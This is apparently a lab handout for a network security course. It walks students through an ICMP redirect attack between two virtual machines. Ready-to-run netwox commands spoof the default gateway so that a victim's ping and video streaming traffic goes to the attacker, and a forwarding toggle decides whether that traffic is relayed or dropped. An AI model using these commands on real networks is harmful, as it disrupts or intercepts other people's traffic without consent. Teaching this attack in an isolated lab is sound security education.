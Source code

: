## ICMP Redirect Attack

### Requirement

In this lab, you will disrupt a victim machine's ICMP traffic using the ICMP redirect attack; and then, using the same attack, you disrupt a victim's video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM2 as the attacker. The 2 VMs do not need to be in the same network - however, this lab has only been tested when the two VMs are in the same network.

### Preparation steps:

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

### Attack steps:

step 1. victim, run: $ ping www.google.com
make sure you ping command works and you do get response from google, otherwise this lab makes no sense.
if ping works, press ctrl-c to stop the ping command and move on to step 2.

step 2. attacker, run that attack command: $ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
step 3. victim, run: $ ping www.google.com (this time it should still succeed)
step 4: attacker, press ctrl-c to stop the attack command.
step 5: victim, run: $ ping www.google.com (this time it should fail, thus it proves the attack is successful.)

step 6: attacker, run: $ sudo sysctl net.ipv4.ip_forward=1 (immediately the victim's ping will then succeed, explain why?)
step 7: attacker, run: $ sudo sysctl net.ipv4.ip_forward=0 (turning this off so our attack will succeed.)

the next two steps attempt a new attack which disrupts the victim's video streaming service:

step 8: victim, open firefox, watch some youtube video.
step 9: attacker, run the exact same attack command as before: $ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1 (if successful, victim won't be able to watch the youtude video)
